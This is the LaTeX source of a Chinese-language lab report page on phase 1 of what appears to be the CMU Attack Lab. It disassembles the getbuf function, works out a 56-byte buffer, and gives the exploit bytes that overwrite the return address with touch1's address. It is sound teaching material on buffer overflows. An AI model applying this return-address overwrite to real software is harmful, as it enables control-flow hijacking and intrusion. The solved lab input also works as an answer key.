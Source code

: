 \documentclass[12pt,a4paper]{article}
\begin{document}
首先查看缓冲区大小，用 \verb|objdump| 将 \verb|ctarget| 反汇编，得到 \verb|getbuf|函数的汇编指令如下：

\begin{lstlisting}[language={[x64]Assembler}]
000000000040189b <getbuf>:
  40189b:	48 83 ec 38          	sub    $0x38,%rsp
  40189f:	48 89 e7             	mov    %rsp,%rdi
  4018a2:	e8 7e 02 00 00       	callq  401b25 <Gets>
  4018a7:	b8 01 00 00 00       	mov    $0x1,%eax
  4018ac:	48 83 c4 38          	add    $0x38,%rsp
  4018b0:	c3                   	retq
\end{lstlisting}

可见， \verb|getbuf| 函数开辟了 0x38 个字节的栈空间，并将栈顶指针 \%rsp 作为第一个参数传入 \verb|gets| 函数，即可推断出缓冲区大小为 0x38=56，因此，需要56个字符（非换行符0x0a）来填充缓冲区，本实验中统一采用 0x00 填充缓冲区，在56个 0x00 后紧接着输入 \verb|touch1| 的返回地址，即可将 \verb|getbuf| 的返回地址覆盖为 \verb|touch1| 函数的入口地址。堆栈图如  所示。

\begin{figure}[H]
    \hspace*{85pt}
    \includegraphics[width=0.7\textwidth]{./fig/1.png}
    \caption{实验1堆栈图}
    \label{figure:exp_1}
\end{figure}

接下来在反汇编文件中找到 \verb|touch1|，如下所示

\begin{lstlisting}
00000000004018b1 <touch1>:
\end{lstlisting}

可得到 \verb|touch1| 的地址为 0x00000000004018b1。考虑到小端字节序，整数 0x00000000004018b1 的存储方式应该为 b1 18 40 00 00 00 00 00，因此最终的结果为：

\begin{lstlisting}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b1 18 40 00 00 00 00 00
\end{lstlisting}
\end{document}
